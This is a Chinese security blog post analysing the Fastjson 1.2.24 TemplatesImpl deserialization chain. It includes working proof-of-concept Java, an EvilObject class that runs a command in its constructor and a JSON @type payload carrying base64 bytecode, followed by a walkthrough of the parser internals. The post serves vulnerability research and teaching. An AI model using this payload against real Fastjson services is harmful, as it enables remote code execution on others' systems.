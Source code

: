 +++
title = "Fastjson 1.2.24 TemplatesImpl利用链"
publishDate = 2021-04-12T00:00:00+08:00
tags = ["fastjson", "java"]
draft = false
+++

Fastjson 是 alibaba 的一款开源 JSON 解析库，可以将 Java 对象和 JSON 字符串相互转化，并提供了 autotype 机制让使用者可以解析任意 Java 对象，导致一些存在利用点的类被用来进行反序列化攻击。
<!--more-->


## TemplatesImpl 利用链 {#templatesimpl-利用链}

这个类存在利用点的方法是 getTransletInstance，关键的代码如下：

```java
if (_name == null) return null;

if (_class == null) defineTransletClasses();

// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
...
```

首先是 `_name` 变量不能为空，不然直接返回 null。

这里的 `_class` 数组用来保存辅助类，避免垃圾收集器将它们销毁，并通过 newInstance 方法将主类初始化赋值给 translet 变量。前面判断当 `_class` 数组为空时会执行
defineTransletClasses 方法，我们跟进分析一下。

{{< figure src="/ox-hugo/2021-04-11_13-55-39_screenshot.png" >}}

这个方法主要是将 `_bytecodes` 的字节码提取出来，并调用 `loader.defineClass` 方法生成各个辅助类的 Class 对象保存到 `_class` 数组中。注意上图的两个红框部分——在创建 loader
时需要调用 `_tfactory` 私有变量中的方法，如果变量是空的话会报错，所以构造 poc 时需要随便设一个初始值；为了将当前的类设为主类使它初始化，需要这个类继承
AbstractTranslet 类。

综上我们可以构造一个 AbstractTranslet 的子类保存到 `_bytecodes` 中，在它的构造方法写入命令，当这个恶意类被初始化时命令就会执行。

```java
public class EvilObject extends AbstractTranslet {
    public EvilObject() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

为了调用 getTransletInstance 方法，我们需要从 getOutputProperties 方法进入，它是私有变量 `_outputProperties` 的 getter 方法，会在 Fastjson 反序列化的过程中执行。调用栈如下：

{{< figure src="/ox-hugo/2021-04-11_15-01-58_screenshot.png" >}}


## Fastjson 解析过程 {#fastjson-解析过程}

通过下面的示例代码，构造恶意 TemplatesImpl 类的 JSON 字符串，调用 JSON#parse 方法进行反序列化：

```java
public class TemplatesImplPoc {
    public static String getBytecodes(String classPath) throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        Files.copy(Paths.get(classPath), out);
        return Base64.getEncoder().encodeToString(out.toByteArray());
    }

    public static void main(String[] args) throws Exception {
        final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\EvilObject.class";
        String evilCode = getBytecodes(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String poc = "{\"@type\":\"" + NASTY_CLASS + "\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{},\"_outputProperties\":{}}";
        JSON.parse(poc, Feature.SupportNonPublicField);
    }
}
```

首先编译恶意类得到 class 文件，读取文件内容并且 base64 编码后写到 `_bytecodes` 数组中，
`@type` 指定反序列化 json 字符串的目标类型。然后初始化了一些属性，这些属性的作用在前面有解释，由于要设置私有属性，反序列化时需要开启 SupportNonPublicField 选项才能利用成功。

一直跟进到 DefaultJSONParser#parseObject 方法，创建 DefaultJSONParser 对象时初始化了
ParserConfig、JSONScanner 等重要类的实例。

{{< figure src="/ox-hugo/2021-04-11_23-57-31_screenshot.png" >}}

Fastjson 1.2.24 还没有引入 checkAutotype 安全机制，黑名单中只要两个线程类。

识别到 `@type` 关键字后，会从值中读取类名并获取 Class 对象，然后调用
ParserConfig#getDeserializer 方法获取解析器。

{{< figure src="/ox-hugo/2021-04-12_00-09-51_screenshot.png" >}}

在 getDeserializer 方法中对类名进行一些检查，看看是否在 denyList 中，或者是不是一些特殊的类。

{{< figure src="/ox-hugo/2021-04-12_00-15-10_screenshot.png" >}}

如果一直找不到解析器，就会执行 createJavaBeanDeserializer 方法创建。跟进到
JavaBeanInfo#build 方法：

{{< figure src="/ox-hugo/2021-04-12_01-11-59_screenshot.png" >}}

通过反射获取 TemplatesImpl 类的公共属性、方法和构造器，然后遍历公共方法将 setter 和对应的属性信息添加到 fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-33-44_screenshot.png" >}}

在方法最后又对 methods 进行了一次遍历，这次将关键的 getOutputProperties 方法添加到
fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-42-44_screenshot.png" >}}

可以看到方法需要满足一些条件，首先是 if 语句中条件：

```java
// 1.方法名长度大于4
methodName.length() >= 4 &&
// 2.不能是静态方法
!Modifier.isStatic(method.getModifiers()) &&
// 3.以get开头
methodName.startsWith("get") &&
// 4.第四个字符是大写
Character.isUpperCase(methodName.charAt(3)) &&
// 5.不能有参数
method.getParameterTypes().length == 0 &&
// 6.返回值继承于Collection||Map||AtomicBoolean||AtomicInteger||AtomicLong
(Collection.class.isAssignableFrom(method.getReturnType()) ||
 Map.class.isAssignableFrom(method.getReturnType()) ||
 AtomicBoolean.class == method.getReturnType() ||
 AtomicInteger.class == method.getReturnType() ||
 AtomicLong.class == method.getReturnType())
```

然后是属性不能在 fieldList 中，也就是刚刚添加 setter 时没有该属性的 setter。

最后返回解析器并执行它的 deserialze 方法，解析器的 sortedFieldDeserializers 属性封装了 getOutputProperties 方法。

{{< figure src="/ox-hugo/2021-04-12_03-12-20_screenshot.png" >}}

依次处理完 bytecodes、name 和 tfactory 三个属性后开始处理 outputProperties，我们跟进到 JavaBeanDeserializer#parseField 方法，该方法获取属性的解析器对其进行处理。

{{< figure src="/ox-hugo/2021-04-12_02-57-52_screenshot.png" >}}

从上图看到通过 smartMatch 方法获取 outputProperties 属性的解析器，但是参数前面是带有下划线的(之前三个属性也是)。不过 smartMatch 方法会将参数中的 `-` 和 `_` 忽略：

{{< figure src="/ox-hugo/2021-04-12_03-02-20_screenshot.png" >}}

然后跟进到 FieldDeserializer#setValue 方法，在为参数(outputProperties)赋值时从
fieldInfo 获取对应的 method 并调用 invoke 方法执行。

{{< figure src="/ox-hugo/2021-04-12_03-18-34_screenshot.png" >}}

就这样 Fastjson 的反序列化过程和 TemplatesImpl 的利用链成功适配，导致命令执行。

我们再回过头看看 bytecodes 参数的解析过程，Fastjson 根据属性的类型(字节数组)获取对应的解析器 ObjectArrayCodec，读取其内容时调用 JSONScanner#bytesValue 方法进行 base64
解码：

{{< figure src="/ox-hugo/2021-04-12_15-04-21_screenshot.png" >}}

```java
public byte[] bytesValue() {
    return IOUtils.decodeBase64(this.text, this.np + 1, this.sp);
}
```

所以 poc 中 bytecodes 的值要进行编码处理。


## 总结 {#总结}

Fastjson 1.2.24 中 autotype 是默认开启的，而且没有 checkAutotype 方法，所以攻击难度相对较低，在 1.2.25 后基本是针对 checkAutotype 的各种绕过了。但
TemplatesImpl 利用链中需要设置一些私有属性，需要 Fastjson 开启
SupportNonPublicField 选项，而这个选项是在 1.2.22 版本引入的。

Fastjson 还提供了几个 parseObject 方法来解析 JSON 字符串，不过最后和本文的示例一样都会执行到 DefaultJSONParser#parse，不影响 TemplatesImpl 利用链。

